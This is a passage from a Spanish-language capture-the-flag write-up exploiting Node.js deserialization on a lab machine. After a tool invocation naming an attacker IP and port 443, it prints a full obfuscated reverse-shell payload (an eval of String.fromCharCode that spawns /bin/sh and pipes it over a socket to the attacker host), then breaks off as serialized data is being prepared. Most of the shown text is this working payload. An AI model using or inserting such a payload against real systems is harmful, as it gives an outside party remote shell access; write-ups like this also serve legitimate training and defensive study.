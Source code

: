 Le hos añadido los parentesis al final de la data serializada. Vamos a ejecutar el script. Sabiendo esto vamos a aprovecharnos  para ejecutar comandos en el servidor. Usaré este script que me generará un payload para establecerme una revshell.
https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py

Lo ejecutamos y nos quedae el siguiente payload.

```bash
❯ python2 nodejsshell.py 10.10.16.6 443
[+] LHOST = 10.10.16.4
[+] LPORT = 443
[+] Encoding
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,54,46,52,34,59,10,80,79,82,84,61,34,52,52,51,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))
```

Ahora tenemos que generar nuestra data serializada:

```bash
❯ cat revshell
```